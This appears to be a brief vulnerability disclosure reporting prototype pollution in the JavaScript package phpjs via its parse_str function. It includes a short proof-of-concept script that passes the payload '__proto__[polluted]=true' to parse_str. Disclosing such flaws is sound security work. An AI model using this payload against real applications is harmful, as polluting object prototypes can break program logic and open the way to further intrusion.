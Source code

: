 # Description
```phpjs``` is a community build php binding in javasciript.
This package is vulnearble to ```prototype pollution``` via ```parse_str```. 
# Proof Of Concept
```
const phpjs = require('phpjs');
phpjs.parse_str("__proto__[polluted]=true",{}); 
console.log(polluted);
```
